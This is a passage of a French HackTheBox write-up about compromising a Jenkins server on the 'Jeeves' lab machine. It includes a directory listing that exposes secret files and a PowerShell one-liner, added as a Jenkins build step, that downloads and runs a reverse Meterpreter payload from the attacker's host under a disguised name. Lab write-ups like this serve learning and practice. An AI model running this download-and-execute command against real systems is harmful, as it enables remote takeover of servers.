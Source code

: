 ```plain
[+] 10.10.10.63:50000     04/17/2018  09:36 AM               169 jenkins.security.QueueItemAuthenticatorConfiguration.xml
[+] 10.10.10.63:50000     04/17/2018  09:36 AM               162 jenkins.security.UpdateSiteWarningsConfiguration.xml
[+] 10.10.10.63:50000     11/03/2017  10:47 PM        74,271,222 jenkins.war
[+] 10.10.10.63:50000     04/17/2018  08:32 AM            34,147 jenkins.wrapper.log
[+] 10.10.10.63:50000     11/03/2017  10:49 PM             2,881 jenkins.xml
[+] 10.10.10.63:50000     04/17/2018  08:37 AM    <DIR>          jobs
[+] 10.10.10.63:50000     11/03/2017  10:33 PM    <DIR>          logs
[+] 10.10.10.63:50000     04/17/2018  08:34 AM               907 nodeMonitors.xml
[+] 10.10.10.63:50000     11/03/2017  10:33 PM    <DIR>          nodes
[+] 10.10.10.63:50000     11/03/2017  10:44 PM    <DIR>          plugins
[+] 10.10.10.63:50000     11/03/2017  10:47 PM               129 queue.xml.bak
[+] 10.10.10.63:50000     11/03/2017  10:33 PM                64 secret.key
[+] 10.10.10.63:50000     11/03/2017  10:33 PM                 0 secret.key.not-so-secret
[+] 10.10.10.63:50000     04/17/2018  08:41 AM    <DIR>          secrets
[+] 10.10.10.63:50000     04/17/2018  09:36 AM             8,192 TempRacer.exe
[+] 10.10.10.63:50000     11/08/2017  09:52 AM    <DIR>          updates
[+] 10.10.10.63:50000     11/03/2017  10:33 PM    <DIR>          userContent
[+] 10.10.10.63:50000     11/03/2017  10:33 PM    <DIR>          users
[+] 10.10.10.63:50000     11/03/2017  10:47 PM    <DIR>          war
[+] 10.10.10.63:50000     11/03/2017  10:43 PM    <DIR>          workflow-libs
[+] 10.10.10.63:50000     04/17/2018  08:41 AM    <DIR>          workspace
```

Pour autant ce module s'est montré récalcitrant à exécuter des commandes plus poussées, ce qui m'a amener à trouver une exécution de commande plus simple.  

En tant que développeur je ne connais pas *Jenkins* mais je connais mieux *Gitlab* et ses mécanismes d'intégration et tests continus. Aussi je n'ai pas été surpris de trouver une option où l'on peut faire exécuter un script bat en rajoutant une étape de *build* à un projet.  

![Jeeves HTB build step](https://raw.githubusercontent.com/devl00p/blog/master/images/htb_jeeves/jenkins_build_step.png)

Il n'y a plus qu'à créer un nouveau projet vide et rajouter les commandes suivantes pour télécharger et exécuter un reverse *Meterpreter* (j'ai nommé le fichier *jre.exe* pour plus de discrétion) :  

```plain
powershell.exe -w hidden -nop -ep bypass -c "(new-object net.webclient).DownloadFile('http://10.10.15.67:8000/jre.exe', 'C:\Users\Administrator\.jenkins\logs\jre.exe')" & C:\Users\Administrator\.jenkins\logs\jre.exe') &
```

La particularité de *HackTheBox* c'est que plusieurs personnes peuvent plancher au même moment sur la machine... Ça peut être amusant d'observer la méthodologie des autres participants mais le revers de la médaille c'est que les scripts des autres participants peuvent spoiler une étape de challenge...  

De plus comme une machine peut devenir instable, il est possible de la réinitialiser depuis le site. Certains en abusent pensant à tord qu'un exploit n'a pas fonctionné pour X raisons (mais pour certaines machines il s'avère que c'est souvent une étape nécessaire).  

A cause de cela il arrive qu'on ait à répéter les même étapes, comme si on était dans *Un jour sans fin* :D  
